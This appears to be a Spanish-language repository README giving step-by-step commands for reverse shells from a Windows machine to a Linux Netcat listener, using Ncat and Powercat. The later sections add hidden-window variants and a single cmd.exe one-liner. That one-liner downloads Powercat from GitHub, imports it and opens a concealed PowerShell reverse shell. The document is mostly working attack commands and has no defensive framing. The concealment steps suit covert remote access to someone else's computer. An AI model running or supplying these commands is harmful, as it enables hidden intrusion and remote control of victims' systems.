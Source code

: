 # RemotePowerShells
Repositorio sobre shell remotas.

# Shell Remota entre Linux y Windows con Ncat

Este documento proporciona una guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat en Linux y Ncat en Windows, con la ventana de PowerShell en la máquina Windows.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```bash
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre cmd.exe.
2. Inicia una shell remota con la ventana de PowerShell con el siguiente comando:
   ```
   ncat -e powershell <ip-address> 4444
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.



# Shell Remota entre Linux y Windows con Powercat

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
### Unificar descarga de Powercat, inicio de una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {Invoke-WebRequest 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
Este comando realiza las siguientes acciones:

1. Inicia un nuevo proceso de PowerShell con la ventana oculta.
2. Descarga el módulo Powercat e importa el módulo.
3. Establece la shell remota.

### Iniciar la shell desde cmd.exe

Aquí tienes el comando unificado que descarga Powercat, inicia una shell remota y oculta la ventana de PowerShell, todo en una sola línea desde un cmd.exe:
```
powershell -Command "& {Start-Process powershell -ArgumentList '-WindowStyle Hidden -Command & {Invoke-WebRequest ''https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}'}"
```
